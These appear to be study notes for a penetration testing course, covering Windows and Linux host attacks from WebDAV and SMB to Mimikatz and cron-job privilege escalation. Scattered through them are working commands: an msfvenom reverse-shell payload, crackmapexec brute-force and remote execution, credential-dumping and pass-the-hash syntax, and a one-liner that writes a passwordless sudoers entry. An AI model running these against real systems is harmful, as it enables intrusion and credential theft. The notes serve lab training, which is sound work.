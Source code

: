 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force
- brute force module name: `smb_login`
- The `smb/psexec` module in msf will very likely get caught but antivirus
- Manual exploit using psexec.py from impacket, install with `sudo apt install impacket-scripts`

### Eternal Blue MS17-010

What is shellcode?
Shellcode is a small piece of machine-level code (usually written in assembly) that an attacker uses as a payload — it's the code that gets executed once an exploit successfully gains control of a vulnerable process.

- Manual exploit available @ [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

how is shellcode related to MS17
1. The exploit causes a buffer overflow on a vulnerable system.
2. The attacker injects custom shellcode into memory as part of the payload.
3. Once the overflow occurs, the system executes the shellcode — giving you control.


### RDP

- The rdp_scanner module can varify if the port is running rdp
- After confirm, we can brute force the protocol

**BLUEKEEP (CVE-2019-0708)**

- An RDP vulnerability
- msf got both an auxiliary and exploit module for bluekeep (this module only work with 64bit windows, and also need to manually set target)
- Be EXTREMELY careful with kernel exploit, set CHUNK froom size smaller to be a bit gentle to the target machine

### WinRM

- not enabled by default need to be explicitly configured and enabled
- it allows sysadmin just provide username and userpassword/passwordhash to authenticate
- we can perform a bruteforce attack with "crackmapexec" syntax: `crackmapexec <protocol:winrm> <IP> -u <username:admin> -p <password list>
- to execute command with crackmapexec, syntax is: 'crackmapexec <protocol:winrm> <IP> -u <username> -p <password> -x <command to execute>
- to get command shell session we use "evil-winrm"
- msf also has a module: 'winrm_script_exec'
- TIPS: BY DEFAULT NMAP DOES NOT SCAN WINRM PORT 5985-5986

**Note: We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.**

### Kernel Exploits & Priv Esc for windows

Tools to use:
- Windows-Exploit-Suggester
- Windows-Kernel-Exploits
- In msf, there is a module called `local_exploit_suggester`

**Bypassing UAC with UACMe**

- Requirements: an account that is part of local admin group
- Bypassing will likely not work if it is set to the highest level
- UACMe is developed by @hfire0x and can be downloaded [here](https://github.com/hfiref0x/UACME)
- It works by abusing the inbuilt windows auteelevate tool
- works ranging from win7 to win10

in meterpreter, using pgrep is to grep the process id

UACMe is a very complicated tool, it is recommended to have a home lab with win7, win8,win8.1 and win10 as lab to test all options

**Windows Access Token**





**Alternate Data Streams**

- ADS is an NTFS file attribute and design to be compatible with macOS HFS
- Attackers can use ADS to hide malicious code and executables in legitimate files
- eg: notepad test.txt:secret.txt


**Dumping Password and Hashes**

- Very old version use LM hashes, modern are all NTLM
- All are stored in SAM database and it's locked when the computer is running, thus attacker has to use in-memory techniques to dump SAM hashes from LSASS process
- SAM database is encrypted with a syskey in modern windows
- Elevated/Admin privs are required in order to access and interact with LSASS process
- LM(LanMan) hashes are splited into 2 chunks and hashed with DES algorithm
- NTLM does not split the hash into 2 chunks, also case sensitive unlike LM, but it's not salted, which makes it still quite easy to crack


**Mimikatz**

- It extract hashes from lsass.exe
- msf got mimikatz inside which calls kiwi `load kiwi` to use it
- to run mimikatz locally, the first thing is to check priv `privilege::debug`
- `lsadump::sam` to dump SAM in mimikatz
- Display log on password using `sekurlsa::logonpassword`
**(note that commands in kiwi and mimikatz are different)**

**Pass-The-Hash**

- After capturing hashes or clear-text passwords, we can authenticate it with the target legitimately
- There are many tools to use the pass the hash technique but here we will utilize msf PsExec module and Crackmapexec
- Remember sometimes just the NTLM hash will not work with PsExec module, so they might need the LM hash as well, the format will be `LM:NTLM`
  
- For crackmapexec, we can say `crackmapexec smb <IP> -u <username> -H "NTLM Hash" -x <command>` //no need LM hash here


## Linux

- Frequently Exploited Linux Services: Shellshock, FTP, 


### FTP Exploit

- See if it might have anonymous access
- some versions might be vulnerable
- can brute force it with nmap and hydra (nmap --script @ /usr/share/nmap/scripts)


### SSH Exploit

- ssh auth can be configured in two ways: User & password | Key based auth
- if it is user & password auth then it can be brute force

### SAMBA/SMB Exploit

- SMB is usually used for file sharing, and set up a file share. Thus enumerating shares are very important.
- Brute force with hydra and then use SMBmap and smbclient


### Linux Kernel Exploit

- similar to windows: vulns are usually identified by [linux-Exploit-Suggester]

Steps and Methodology
- After gaining a meterpreter, getuid and sysinfo for standard enum
- TIP: use /bin/bash -i to get a bash instead of using shell (optional)
- cd to /tmp and upload the LES shell script
- chmod the .sh and run it

### Cron Jobs

- Cron is a time-based service that runs applications, scripts etc repeatedly on a specified schedule
- important thing is to target a cronjob that is own and run by root
- Nice shell script to use is `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > <The location of target shell script that will be executed by the cron job>`










